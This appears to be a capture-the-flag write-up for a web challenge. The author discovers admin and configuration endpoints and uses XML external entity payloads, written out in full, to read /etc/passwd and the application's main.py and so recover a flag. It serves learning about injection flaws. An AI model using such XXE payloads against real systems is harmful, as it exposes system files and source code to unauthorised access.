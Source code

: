 Try out several subpath found the following is valid

* [1] http://34.74.105.127/a89232cf07/unlock
* [2] http://34.74.105.127/a89232cf07/admin

``[2]`` leads to admin panel

There is a comment in admin page indicates a path named 'get-config'
By checking

```html
  http://34.74.105.127/a89232cf07/get-config
```

We found it leads to a page shows 
  'Front door'
same string at admin panel

View the source code of get-config, turns out it's actually an XML file.
looks like there are some logic to read the xml file and generate the admin page.

Test url

```html
  http://34.74.105.127/a89232cf07/set-config
```

Got a ``Bad Request`` message which means this is a valid path.

Try to request with parameter 'data' and payload

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE mycode [<!ELEMENT config ANY ><!ENTITY mycode SYSTEM "/etc/passwd" >]><config><location>&mycode;</location></config>
```

It redirect to admin page with content of /etc/passwd.

Try out several paths, seems ``main.py`` is a valid one.

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE mycode [<!ELEMENT config ANY ><!ENTITY mycode SYSTEM "main.py" >]><config><location>&mycode;</location></config>
```

Found one flag in file main.py.
